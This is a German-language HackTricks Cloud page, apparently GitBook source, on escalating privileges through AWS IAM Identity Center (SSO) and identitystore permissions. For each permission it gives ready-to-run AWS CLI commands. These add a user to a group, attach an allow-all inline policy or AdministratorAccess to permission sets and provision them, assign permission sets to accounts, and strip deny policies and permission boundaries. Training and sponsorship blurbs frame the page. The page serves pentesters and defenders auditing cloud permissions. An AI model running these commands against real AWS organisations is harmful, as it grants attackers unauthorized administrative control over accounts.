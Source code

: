 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Für weitere Informationen über AWS Identity Center / AWS SSO siehe:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beachten Sie, dass **standardmäßig** nur **Benutzer** mit Berechtigungen **aus** dem **Management-Konto** auf das **IAM Identity Center** zugreifen und es **steuern** können.\
Benutzer aus anderen Konten können dies nur zulassen, wenn das Konto ein **Delegierter Administrator** ist.\
[Überprüfen Sie die Dokumentation für weitere Informationen.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Passwort zurücksetzen~~

Ein einfacher Weg, um Privilegien in Fällen wie diesem zu eskalieren, wäre, eine Berechtigung zu haben, die es ermöglicht, die Passwörter der Benutzer zurückzusetzen. Leider ist es nur möglich, eine E-Mail an den Benutzer zu senden, um sein Passwort zurückzusetzen, sodass Sie Zugriff auf die E-Mail des Benutzers benötigen.

### `identitystore:CreateGroupMembership`

Mit dieser Berechtigung ist es möglich, einen Benutzer in eine Gruppe zu setzen, sodass er alle Berechtigungen der Gruppe erbt.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset gewähren, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset gewähren, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset gewähren, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% hint style="warning" %}
Um diese Berechtigungen in diesem Fall auszunutzen, müssen Sie den **Namen einer kundenverwalteten Richtlinie kennen, die in ALLEN betroffenen Konten vorhanden ist**.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ein Angreifer mit dieser Berechtigung könnte einem Benutzer unter seiner Kontrolle ein Berechtigungsset für ein Konto zuweisen.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Gibt die STS- kurzfristigen Anmeldeinformationen für einen bestimmten Rollennamen zurück, der dem Benutzer zugewiesen ist.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Sie benötigen jedoch ein Zugriffstoken, dessen Beschaffung ich nicht sicher weiß (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Zuordnung zwischen einer AWS verwalteten Richtlinie und dem angegebenen Berechtigungsset entfernen. Es ist möglich, mehr Berechtigungen zu gewähren, indem eine verwaltete Richtlinie (Ablehnungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Zuordnung zwischen einer von Kunden verwalteten Richtlinie und dem angegebenen Berechtigungsset entfernen. Es ist möglich, weitere Berechtigungen zu gewähren, indem eine verwaltete Richtlinie (Ablehnungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungen aus einer Inline-Richtlinie des Berechtigungssets entfernen. Es ist möglich, **mehr Berechtigungen zu gewähren, indem eine Inline-Richtlinie (Verweigerungsrichtlinie) abgetrennt wird**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungsgrenze aus dem Berechtigungsset entfernen. Es ist möglich, **mehr Berechtigungen zu gewähren, indem die Einschränkungen des Berechtigungssets, die von der Berechtigungsgrenze gegeben werden, entfernt werden.**

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
